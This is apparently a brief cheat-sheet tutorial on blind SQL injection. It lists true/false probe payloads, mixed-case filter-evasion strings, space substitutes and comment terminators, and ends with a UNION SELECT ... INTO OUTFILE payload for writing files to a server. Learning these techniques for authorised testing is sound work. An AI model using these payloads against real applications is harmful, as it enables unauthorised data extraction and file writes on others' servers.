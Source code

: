 SQLi or SQL injection is a web application vulnerability allows an attacker to bypass logins and extract sensitive data from the database.

## Blind SQLi
Another type of sql injection attack where error does not shown to the user.
### How to indentify blind SQLi:
Test it by making payloads **TRUE**, for eg.:
  `1' and 1 = 1 #` this statement is true and should return the normal data
  `1' and 1 = 2 #` this statement is false and will not return any data without showing any error.

If both payloads work mean site is vulnerable to blind SQLi but not showing error on wrong SQLi pyload.

Examples of TRUE statements for discovering sqli
```
aNd 1=1
aNd 21=21
orDeR bY 1
```

Examples of FALSE statements
```
dNd 0=1
anD 9=2
ordEr bY 1000000000000
```

Characters to use instead of spaces:
```
+, /**/, %20
Examples: orDeR bY 1 can be re-written as
orDer+bY+1
orDer/**/bY/**/1
orDer%20bY%201
```

Comments to end the quries:
```
/*
//
#
%23
```

Ps: sometimes you might need to add ';' before the comment, examples:
```
anD 1=1//
anD 1=1;//
```

#### Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*
